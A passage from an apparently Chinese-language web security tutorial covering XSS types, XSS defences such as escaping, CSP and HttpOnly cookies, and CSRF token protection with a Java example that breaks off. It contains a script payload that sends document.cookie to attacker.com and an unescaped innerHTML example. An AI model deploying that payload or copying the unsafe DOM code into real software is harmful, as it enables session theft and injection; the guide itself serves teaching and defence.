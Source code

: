   ```
  <script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'http://attacker.com', true); xhr.send(document.cookie); </script>
  ```
* **DOM型 XSS（DOM-based XSS）：** 攻击者通过操控浏览器的DOM对象，使浏览器在本地解析时执行恶意代码。这种攻击发生在客户端，不依赖服务器的响应。
  场景：JavaScript直接操作DOM，生成并执行了不安全的脚本。
  示例：不安全的DOM操作
  
  ```
  var userInput = document.getElementById('inputBox').value;
   document.getElementById('resultDiv').innerHTML = userInput; // 没有进行转义处理
  ```

#### **防御措施**

##### **输入验证和过滤：**

* **输入白名单：** 只允许特定格式的数据通过，例如只接受纯文本、数字或特定字符。
* **字符转义（Escaping）：** 将用户输入中的特殊字符（如<、>、&等）进行转义，防止它们被解释为HTML或脚本标签。

##### **输出编码（Output Encoding）：**

* 在将用户输入的数据输出到HTML、JavaScript、CSS等上下文时，使用适当的输出编码来确保特殊字符不会被执行为脚本。例如，HTML输出时对<和>进行转义为‘&lt’;和‘&gt’。

##### **内容安全策略（CSP，Content Security Policy）：**

* 配置CSP头部，限制网页中哪些资源能够被加载和执行。例如，可以禁止内联脚本的执行，指定可信任的脚本源。

##### **HttpOnly 和 Secure Cookie：**

* 设置HttpOnly属性，防止客户端脚本（如JavaScript）读取会话Cookie，减少会话劫持的风险。
* 设置Secure属性，确保Cookie只能通过加密的HTTPS通道传输。

##### **避免内联JavaScript：**

* 避免在HTML文档中使用内联JavaScript或事件处理程序（如onclick），而是将所有脚本逻辑放在外部JavaScript文件中，并通过CSP来限制其来源。

##### **输入消毒（Sanitization）：**

* 对用户输入的富文本或HTML内容进行严格的消毒，删除或转义任何不安全的标签或属性。

##### **保持依赖库的更新：**

* 确保使用的JavaScript框架和库是最新的，因为旧版本可能存在已知的安全漏洞。

##### **防范DOM型 XSS：**

* 避免直接在DOM中插入用户输入的数据，尽量使用安全的API（如textContent或innerText）代替innerHTML，防止脚本被注入执行。

## 跨站请求伪造（CSRF）和防御

跨站请求伪造（CSRF）是一种利用用户已登录的状态，在用户不知情的情况下发送恶意请求的攻击方式。常见的防御措施有：
1. **CSRF Token**：在每个请求中附带唯一的CSRF Token，以验证请求的合法性。攻击者无法预先获取该Token。
2. **同源策略**：限制请求只能从同源的域发起，防止来自其他域的恶意请求。
3. **双重Cookie验证**：要求请求同时提供一个存储在Cookie和一个存储在请求主体中的Token，并验证两者是否匹配。

```java
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpSession;
import java.util.UUID;

public class CsrfProtection {
    public static String generateCsrfToken(HttpSession session) {
        String csrfToken = UUID.randomUUID().toString();
        session.setAttribute("csrfToken", csrfToken);
        return csrfToken;
    }

    public static boolean validateCsrfToken(HttpServletRequest request) {
        String sessionToken = (String) request.getSession().getAttribute("csrfToken");
```